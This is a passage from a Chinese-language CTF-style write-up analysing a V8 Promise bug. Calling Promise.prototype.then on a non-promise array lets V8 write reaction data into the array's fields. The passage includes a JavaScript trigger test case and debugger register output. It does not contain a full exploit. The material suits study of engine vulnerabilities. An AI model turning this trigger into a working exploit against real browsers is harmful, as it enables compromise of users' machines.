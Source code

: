 ```
[...]
  promise.SetHasHandler();
`}`

```

可以发现如果我们的`thenable`不是`JSPromise`，那么在`PerformPromiseThenImpl`的时候就会将`reaction`写入`promise.reactions_or_result`中，导致可能会改变传入的`thenable`的内容

题目给的`chromium`的`commit`为`ca01b9e37ff412d2693fdcdef75812ae0bbbd386`，但是这是一个`v8`的洞，所以我们直接使用`v8`调更方便一些，`v8`的版本是`9.2.44`

我们编写如下代码进行测试：

```
var thenable = [1.1,2.2,3.3,4.4]
new Object();
thenable.then = Promise.prototype.then

var p = Promise.resolve(thenable);

%DebugPrint(p);
%DebugPrint(thenable);

function pwn () `{`
    %DebugPrint(thenable);
    %SystemBreak();
`}`
setTimeout(() =&gt; pwn() , 4);
```

> 这里的`new Object()`是为了进入`PerformPromiseThenImpl`的 `if (promise.Status() == PromiseState::kPending)`分支

我们加一个断点断在`PerformPromiseThenImpl`的开头，首先进入 `if (promise.Status() == PromiseState::kPending)`分支

[![](https://p1.ssl.qhimg.com/t0176d44f5d32c1e3ff.png)](https://p1.ssl.qhimg.com/t0176d44f5d32c1e3ff.png)

此时部分寄存器的值的含义如下

```
RAX 0x3dfb08088b1d &lt;Promise map = 0x3dfb08243091&gt;
RBX 0x3dfb080423b5 &lt;undefined&gt;
RCX 0x3dfb080423b5 &lt;undefined&gt;
RDX 0x3dfb08088a99 &lt;JSArray[4]&gt;
```

`RAX`存放的是`p`，`RDX`存放的是`thenable`

走到`reaction`生成完毕

[![](https://p4.ssl.qhimg.com/t019fd0d2a6436c70a8.png)](https://p4.ssl.qhimg.com/t019fd0d2a6436c70a8.png)

[![](https://p2.ssl.qhimg.com/t01c9ca526b7032a1dd.png)](https://p2.ssl.qhimg.com/t01c9ca526b7032a1dd.png)
